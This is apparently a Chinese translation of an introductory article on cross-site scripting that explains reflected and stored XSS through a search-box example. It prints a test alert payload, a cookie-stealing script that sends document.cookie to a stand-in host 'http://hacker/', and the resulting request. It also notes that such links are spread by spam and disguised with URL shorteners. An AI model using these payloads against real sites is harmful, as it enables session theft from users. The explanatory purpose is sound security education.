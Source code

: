 # XSS 的概述

最重要的要了解 XSS 漏洞的是，他们是目前为止发现的，在所有网站超过 80％比例的定制 Web 应用程序中最常 见的漏洞。虽然跨站点脚本在一段时间内一直被认为是中等程度的的漏洞，但 XSS 蠕虫和病毒的出现，已经提高了 XSS 的评估。软件开发人员和安全专业人员需要知道它是多么简单，以防止代码开发过程中出现 XSS 漏洞，并且一经查出， 他们是多么容易解决。XSS 是一种攻击技术，它使得一个网站，写出攻击者提供的可执行代码，然后加载在用户的 Web 浏览器。也就是说，当黑客使用存在漏洞的网站作为攻击的通道时，用户是预定的受害者。

## 非持久型 XSS

(译者注：也叫反射型 XSS)

想想看，一个黑客想使用“([`victim/)/”网站对用户进行`](http://victim/)/”网站对用户进行) XSS 攻击。黑客会采取的第一个步骤是在 [`victim/`](http://victim/) 找出一个 XSS 漏洞，然后构造一个特制的 URL，也被称为链接。要做到这一点，黑客会搜寻网站上的客户端提供的数 据可以被发送到 Web 服务器，然后回显到屏幕上的任何功能，比如搜索框。

图一展现的是一种常见的在线发布的博客。XSS 漏洞往往出现在搜索框表单。在搜索字段中输入“test search”， 响应页面将用户输入的文本在显示在三个不同的位置，如图 2 所示。图下方是新的 URL。查询字符串中包含值为 “test+search”的“search”参数。这个 URL 值可以在运行时更改，甚至包括 HTML / JavaScript 的内容。

![image](img/Image_002.jpg)

图 1 [`victim/`](http://victim/)

图 2 [`victim/search.pl?search=test+search`](http://victim/search.pl?search=test%2Bsearch)

图 3 展示了原来的搜索词被替换为下面的 HTML / JavaScript 代码时会发生什么：

Example 1.

```
”><SCRIPT>alert(‘XSS%20Testing’)</SCRIPT> 
```

结果页面弹出了一个无害的警告对话框。根据提示，提交的代码已经成为 web 页面的一部分，证明了 JavaScript 已进入到[`victim/`](http://victim/%E7%9A%84%E4%B8%8A%E4%B8%8B%E6%96%87%E5%B9%B6%E5%BE%97%E5%88%B0%E6%89%A7%E8%A1%8C)的上下文并得到执行。图 4 展示了夹杂有新的 HTML/ JavaScript 代码的 Web 页面的 HTML 源代 码。

![image](img/Image_003.jpg)

图 3，原来的搜索词将被替换为 HTML/ JavaScript 代码。

图 4，夹杂有新的 HTML/ JavaScript 代码的 Web 页面的 HTML 源代码。

此时，黑客将会继续修改这个 URL，包含更复杂的 XSS 攻击来利用用户。一个典型的例子是一个简单的 cookie 盗 窃的攻击。

Example 2.

```
“><SCRIPT>var+img=new+Image();img.src=”http://hacker/”%20+%20document.cookie;</SCRIPT> 
```

前面的 JavaScript 代码创建一个图像 DOM（文档对象模型）对象。

```
var img=new Image(); 
```

因为 JavaScript 代码在“[`victim/`](http://victim/)”上下文中执行，所以它可以访问 cookie 数据。

```
document.cookie; 
```

图形对象然后指派一个外域的 URL 发送带有 Web 浏览器的 Cookie 字符串的数据到“[`hacker/`](http://hacker/)”。

```
img.src=”http://hacker/” + document.cookie; 
```

下面是一个例子，是一个被发送的 HTTP 请求。

Example 3.

```
GET http://hacker/path/_web_browser_cookie_data HTTP/1.1
Host: host
User-Agent: Firefox/1.5.0.1
Content-length: 0 
```

一旦黑客完成了他的攻击代码，他会通过垃圾邮件，留言板的帖子，即时消息和其他方法宣传这种特制的链接， 试图吸引用户点击。是什么让这种攻击这么有效？用户可能点击正常的网络钓鱼邮件 7 中的链接是因为这个 URL 包 含了真正的网站域名，而不是一种外观相似的域名或随机的 IP 地址。应当注意的是，过长的 XSS 链接可以使用 URL 缩短服务，如 TinyURL.com 进行伪装。

## 持久型 XSS

(译者注：也叫存储型 XSS)

持久型（或 HTML 注入型）XSS 攻击最常发生在由社区内容驱动的网站或 Web 邮件网站，不需要特制的链接来 执行。黑客仅仅需要提交 XSS 漏洞利用代码到一个网站上其他用户可能访问的地方。这些地区可能是博客评论，用户 评论，留言板，聊天室，HTML 电子邮件，wikis，和其他的许多地方。一旦用户访问受感染的网页，执行是自动的。 这使得持续性的 XSS 的危险性比非持久性高，因为用户没有办法保护自己。一旦黑客成功在某个页面注入了漏洞利

用代码，他将宣传受感染页面的 URL 来希望不知情的用户中招。即使用户对非持续性 XSS 的 URL 懂得识别，也会很 容易的受到影响(译者:中招)。

无论使用非持续性或持续性的 XSS 漏洞，黑客可以利用用户，导致网络和财务上的损失，有许多的方法。 从这点出发，我们将专注于的 XSS 病毒和蠕虫的攻击技术。欲了解更多 XSS 信息，请访问“跨站脚本常见问题解答 8”和“XSS 小抄 9” ，两个优秀的信息资源。